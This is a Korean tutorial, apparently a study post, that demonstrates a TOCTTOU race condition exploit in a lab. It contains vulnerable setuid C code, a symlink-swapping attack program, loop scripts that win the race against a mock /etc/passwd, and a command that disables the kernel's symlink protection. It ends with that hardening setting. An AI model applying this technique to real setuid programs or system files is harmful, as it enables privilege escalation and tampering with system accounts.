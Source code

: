 ## **Concept**

Race condition은 프로세스 또는 스레드 간 자원을 사용하기 위한 경쟁을 뜻한다. 이러한 경쟁은 프로세스 또는 스레드의 순서 또는 타이밍에 따라 발생한다.  
Race condition은 프로세스, 스레드에서 사용되는 자원이 공유된 상태일 경우 자주 발생한다.

#### **TOCTTOU(Time of check to time of use)**

TOCTTOU는 소프트웨어에서 리소스의 상태를 확인하는 시간과 사용하는 시간 사이에 리소스를 변경하여 리소스의 상태 확인 결과를 우회하는 방법.

## **Proof of Concept**

가짜 /etc/passwd 파일을 생성하고 실제 /etc/passwd와 같은 설정을 적용한다.

```
root@bs-virtual-machine:~/pwnable/Race_condition# mkdir etc
root@bs-virtual-machine:~/pwnable/Race_condition# ls -al
total 12
drwxr-xr-x 3 root root 4096 11월 18 20:29 .
drwxr-xr-x 4 root root 4096 11월 18 20:29 ..
drwxr-xr-x 2 root root 4096 11월 18 20:29 etc
root@bs-virtual-machine:~/pwnable/Race_condition# cd etc
root@bs-virtual-machine:~/pwnable/Race_condition/etc# ls
root@bs-virtual-machine:~/pwnable/Race_condition/etc# echo Only Root! > passwd
root@bs-virtual-machine:~/pwnable/Race_condition/etc# cat passwd 
Only Root!
root@bs-virtual-machine:~/pwnable/Race_condition/etc# ls -al
total 12
drwxr-xr-x 2 root root 4096 11월 18 20:30 .
drwxr-xr-x 3 root root 4096 11월 18 20:29 ..
-rw-r--r-- 1 root root   11 11월 18 20:30 passwd
```

취약한 프로그램을 생성한다.

```c
// Vuln Code
// gcc vuln.c -o vuln ; chown root:root vuln ; chmod 4755 vuln 
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
  
void main()
{
    int fd;
    char *file = "./file";
    char buffer[]="Success!! Race Condition : Attacker n";
 
    if (!access(file, W_OK)) {
        printf("Able to open file %s.\n",file);
        fd = open(file, O_WRONLY);
        write(fd, buffer, sizeof(buffer));
        close(fd);
    }else{
        //printf("Unable to open file %s.\n",file);
    }
}
```

access() 함수를 이용하여 쓰기 가능한지 확인하고 쓰기가 가능하면 open(), write(), open(), write() 함수를 이용하여 파일을 읽고 내용을 작성한다.  

access()와 open()이 file handler 대신 파일 이름을 사용하여 access() 함수에 전달된 파일이 open() 함수에 전달될 파일과 같을 수 있다는 보장이 없다. 공격자가 access() 함수 호출 후 심볼릭 링크로 파일을 변경하면 open() 함수에 의해 다른 파일을 수정할 수 있다.

file을 unlink한 후 file에 ./etc/passwd 파일을 링크해주는 공격 프로그램을 작성한다.

```c
// gcc attack.c -o attack
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
 
void main()
{
    unlink("file");
    symlink("./etc/passwd","file");
}
```

./vuln 프로그램을 계속 실행시켜주는 스크립트를 작성한다.

```shell
#!/bin/bash
while :
do
    ./vuln
done
```

./ect/passwd를 계속 비교하면서 변경된 경우 "Success"를 출력하는 스크립트를 작성한다.

```shell
#!/bin/bash
CHECK_FILE="ls -l ./etc/passwd"
old=$($CHECK_FILE)
new=$($CHECK_FILE)
while [ "$old" == "$new" ]
do
    ./attack
    new=$($CHECK_FILE)
done
echo "Success! The passwd file has been changed"
```

리눅스 커널의 보안 기술을 해제한다.

```shell
bs@bs-virtual-machine:~/race_condition$ sudo sysctl -w fs.protected_symlinks=0
fs.protected_symlinks = 0
```

## **Exploit**

Terminal1으로 run.sh 스크립트를 통해 ./vuln 프로그램을 지속적으로 실행한다.

```
bs@bs-virtual-machine:~/race_condition$ echo > file
bs@bs-virtual-machine:~/race_condition$ bash run.sh 
Able to open file ./file.
Able to open file ./file.
...
```

Terminal2에 race.sh 스크립트를 통해 ./attack 프로그램을 ./etc/passwd가 변조될 때까지 실행시킨 다음 ./etc/passwd이 변조된 것을 확인한다.

```
bs@bs-virtual-machine:~/race_condition$ bash race.sh 
Success! The passwd file has been changed
bs@bs-virtual-machine:~/race_condition$ cat ./etc/passwd 
Success!! Race Condition : Attacker
```

#### **File system hardening**

리눅스 커널은 프로그램(tmp-races, TOCTOU)의 안전하지 않은 파일 시스템 액세스에 대한 취약성에 대한 위협을 완하하기 위해 해당 보안 기술을 적용하였다.

```
Ubuntu 12.04
$ sudo sysctl -w kernel.yama.protected_sticky_symlinks=1
Ubuntu 16.04
$ sudo sysctl -w fs.protected_symlinks=1
```

**References**  
[https://www.lazenca.net/display/TEC/09.Race+condition](https://www.lazenca.net/display/TEC/09.Race+condition)